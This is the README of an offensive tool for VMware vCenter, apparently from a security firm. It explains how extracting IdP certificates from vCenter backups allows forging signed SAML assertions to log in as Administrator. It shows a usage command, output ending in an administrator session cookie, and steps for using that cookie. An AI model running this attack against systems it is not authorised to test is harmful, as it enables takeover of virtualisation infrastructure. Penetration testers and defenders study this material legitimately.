 # vCenter SAML Login Tool
A tool to extract the IdP cert from vCenter backups and log in as Administrator

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://horizon3.ai/vcenter_saml_login

## Background
With root or administrative permissions, it is possible to extract the IdP certificates from the directory service information located within the data.mdb file on the VCSA host. These certificates are stored in cleartext and can be used to sign any SAML authentication request for any user - including the builtin Administrator.

We've commonly found vCenter backups that contain the data.mdb file as well as several critical CVEs have been released in the past year that lead to access to this file.

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://horizon3.ai/vcenter_saml_login

## Usage
```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t 10.0.100.200
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname vcsa.olympus for 10.0.100.200
[*] Initiating SAML request with 10.0.100.200
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for 10.0.100.200!
[+] Cookie: VSPHERE-UI-JSESSIONID=06D1630719B4DE33A4CE653458911640
```

With the above cookie, visit the VCSA instance at https://\<VCSA>\/ui, add the cookie under the /ui path, and re-browse to https://\<VCSA\>/ui. 

## Demonstration
![](vcenter.gif)
